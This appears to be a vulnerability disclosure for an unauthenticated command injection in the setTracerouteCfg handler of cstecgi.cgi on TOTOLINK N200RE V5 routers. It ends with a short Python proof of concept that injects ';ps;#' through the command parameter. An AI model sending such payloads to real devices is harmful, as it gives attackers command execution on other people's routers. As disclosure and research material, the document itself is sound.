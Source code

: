 # TOTOLINK N200RE V5(V9.3.5u.6139_B20201216) router has command injection vulnerability
## Information

Vendor：http://totolink.net/

Firmware：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/204/ids/36.html

## Affected Version
V9.3.5u.6139_B20201216
## Vulnerability Analysis
The following image displays the code for a command injection vulnerability in the `setTracerouteCfg` handler function of  `cstecgi.cgi`. The value of the `command` parameter will be spliced ​​into the `traceroute -m %d %s&>....` and be excuted by `doSystem` function, which allows an attacker to excute any command. **The vulnerability do not need auth.**


![Vulnerability](./code.png)
## POC
```python
import requests

url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"

payload = """{
    "topicurl": "setTracerouteCfg",
    "num": "123",
    "command": ";ps;#"
}"""

requests.request("POST", url, data=payload)
```
![postman](postman.png)